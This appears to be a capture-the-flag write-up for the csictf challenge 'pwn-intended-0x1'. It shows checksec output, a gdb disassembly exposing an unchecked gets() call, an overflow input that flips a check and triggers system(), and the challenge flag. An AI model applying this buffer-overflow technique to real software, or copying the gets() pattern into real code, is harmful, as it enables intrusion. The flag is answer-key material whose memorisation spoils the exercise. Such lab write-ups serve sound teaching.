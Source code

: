 Info

$file pwn-intended-0x1
pwn-intended-0x1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1fc0accd801ea951a4ec2f7f8c804e0559ccb1db, for GNU/Linux 3.2.0, not stripped

$ checksec pwn-intended-0x1
[*] /pwn-intended-0x1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

Anaylsing binary 

gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401156 <+0>:	push   rbp
   0x0000000000401157 <+1>:	mov    rbp,rsp
   0x000000000040115a <+4>:	sub    rsp,0x30
   0x000000000040115e <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401165 <+15>:	mov    rax,QWORD PTR [rip+0x2ef4]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x000000000040116c <+22>:	mov    esi,0x0
   0x0000000000401171 <+27>:	mov    rdi,rax
   0x0000000000401174 <+30>:	call   0x401040 <setbuf@plt>
   0x0000000000401179 <+35>:	mov    rax,QWORD PTR [rip+0x2ef0]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401180 <+42>:	mov    esi,0x0
   0x0000000000401185 <+47>:	mov    rdi,rax
   0x0000000000401188 <+50>:	call   0x401040 <setbuf@plt>
   0x000000000040118d <+55>:	mov    rax,QWORD PTR [rip+0x2eec]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x0000000000401194 <+62>:	mov    esi,0x0
   0x0000000000401199 <+67>:	mov    rdi,rax
   0x000000000040119c <+70>:	call   0x401040 <setbuf@plt>
   0x00000000004011a1 <+75>:	lea    rdi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+82>:	call   0x401030 <puts@plt>
   0x00000000004011ad <+87>:	lea    rax,[rbp-0x30]
   0x00000000004011b1 <+91>:	mov    rdi,rax
   0x00000000004011b4 <+94>:	mov    eax,0x0
   0x00000000004011b9 <+99>:	call   0x401060 <gets@plt>
   0x00000000004011be <+104>:	lea    rdi,[rip+0xe5f]        # 0x402024
   0x00000000004011c5 <+111>:	call   0x401030 <puts@plt>
   0x00000000004011ca <+116>:	cmp    DWORD PTR [rbp-0x4],0x0
   0x00000000004011ce <+120>:	je     0x4011ed <main+151>
   0x00000000004011d0 <+122>:	lea    rdi,[rip+0xe59]        # 0x402030
   0x00000000004011d7 <+129>:	call   0x401030 <puts@plt>
   0x00000000004011dc <+134>:	lea    rdi,[rip+0xe94]        # 0x402077
   0x00000000004011e3 <+141>:	mov    eax,0x0
   0x00000000004011e8 <+146>:	call   0x401050 <system@plt>
   0x00000000004011ed <+151>:	mov    eax,0x0
   0x00000000004011f2 <+156>:	leave  
   0x00000000004011f3 <+157>:	ret    
End of assembler dump.

We can see gets function.so try it by giving some input 

gdb-peda$ r 
Starting program: pwn-intended-0x1 
Please pour me some coffee:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.

process  is executing new program: /bin/dash
[New process]
process  is executing new program: /bin/cat


Its a easy bufferoverflow vulnerability.


flag csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}